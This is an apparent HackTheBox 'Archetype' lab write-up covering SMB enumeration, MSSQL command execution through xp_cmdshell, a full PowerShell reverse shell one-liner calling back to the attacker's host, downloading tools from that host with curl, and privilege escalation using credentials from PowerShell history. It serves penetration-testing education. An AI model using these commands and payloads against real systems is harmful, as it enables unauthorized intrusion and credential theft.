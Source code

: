 ```yaml
---
title: Archetype
draft: false
tags:
  - hackthebox
---
```

# Enumeration

I started with a simple Nmap scan on the top 1,000 ports.

```
sudo nmap -sS 10.10.10.10
```

I then performed a script and service scan to gain some additional information on the services:

```
sudo nmap -sS -sC -sV 10.10.10.10
```

![Nmap](static/archetype_nmap.png)

With this information, I noticed SMB had user level authentication as guest. To determine what resources a guest account can access, I utilized `smbmap` and `smbclient`.

First, I used smbmap to enumerate SMB shares:

```
smbmap -H 10.10.10.10 -u guest
```

![Nmap](static/archetype_smbmap.png)

So, unauthenticated users can read `backups` and `IPC$`. Next, I used smbclient to connect via SMB.

```
smbclient \\\\10.10.10.10\\backups -N
```

SMB operates similar to a shell. You can use commands like `ls`, `cd`, and `get`. I was able to retrieve `prod.dtsConfig`.

# Exploitation

We now have a username and password to the MSSQL database server. `Impacket` has a super handy [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) script that can be used to connect to the MSSQL server.

```
python3 mssqlclient.py ARCHETYPE/sql_svc:password@10.10.10.10 -windows-auth
```

`mssqlclient.py` comes with super handy features, such as the following commands:
- `enable_xp_cmdshell` - Enables a command shell
- `xp_cmdshell <cmd>` - Executes a command on the shell

Executing `xp_cmdshell whoami` shows that I am currently the `sql_svc` user. Instead of relying on `xp_cmdshell` as our shell, I decided to create a reverse shell.

First, I created a listener on my Kali machine:

```
ncat -lvnp 8888
```

Next, I used a one-liner PowerShell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.01',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Further, I encoded the PowerShell in base64 to make it work with `powershell.exe -c` because otherwise, the quotes will break. I used [Powershell Encoder](https://raikia.com/tool-powershell-encoder/) for this. This tool is super nice because not only does it encode the payload in base64, it also generates the powershell.exe command which can be copy and pasted right into `xp_cmdshell`.

![Shell](static/archetype_shell.png)

Now, I am able to traverse to `C:\Users\sql_svc\Desktop` to find the user flag.

# Privilege Escalation

My initial thought here was to simply install `WinPEAS` to enumerate common privilege escalation paths. However, it seems the host blocks outward connections. Thus, I was unable to simply cURL [winPEASany.exe](https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe). However, because the reverse shell connection was allowed to be made, it seemed traffic to the internal HTB VPN network was allowed.

All that was needed was a simple Python HTTP server to host the `winPEASany.exe` file, and then it could be retrieved via `curl`. I simply downloaded winPEAS on my Kali machine, and then started a Python HTTP server in the `~/Downloads` directory.

```
sudo python3 -m http.server
curl 10.10.10.01:8000/winPEASany.exe -o winPEAS.exe
```

Let’s run winPEAS now. It’s a bit tricky, since simply doing `.\winPEAS.exe` or `Start-Process winPEAS.exe` will create a new process, and the output will not be shown. Luckily, WinPEAS has a `log` flag, which logs output to a file, rather than STDOUT.

```powershell
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("C:\Users\sql_svc\winPEAS.exe")));
[winPEAS.Program]::Main("log=C:\Users\sql_svc\log.txt")
```

Interestingly, it seems PowerShell History is enabled. WinPEAS points this out by highlighting it in red and bold, so that is something we can check out as a possible privilege escalation path. WinPEAS also highlighted a lot of other routes that could be worth checking out, such as PATH injection. Another tool that can be used is PowerSploit’s [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), which is a native PowerShell script that runs privilege escalation checks. Just like WinPEAS, it needs to be hosted on a Python HTTP server and then downloaded via `curl`. Once downloaded, it can be ran as follows:

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

PowerUp finds some interesting token impersation opportunities, as a result of the `SeImpersonate` privileges. This can be exploited with the [JuicyPotato](https://github.com/ohpe/juicy-potato) exploit to escalate privileges.

But, before I start focusing on JuicyPotato, I want to check out `ConsoleHost_history.txt`. Because the account we have access to is a service account, it is very plausible that it runs PowerShell commands on a regular interval, and those commands could have interesting information in them.

```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

In this file is a `net use` command, which contains the credentials to the Administrator account. To login, another `Impacket` script can be used: `psexec`.

```
python3 psexec.py administrator@10.10.10.10
```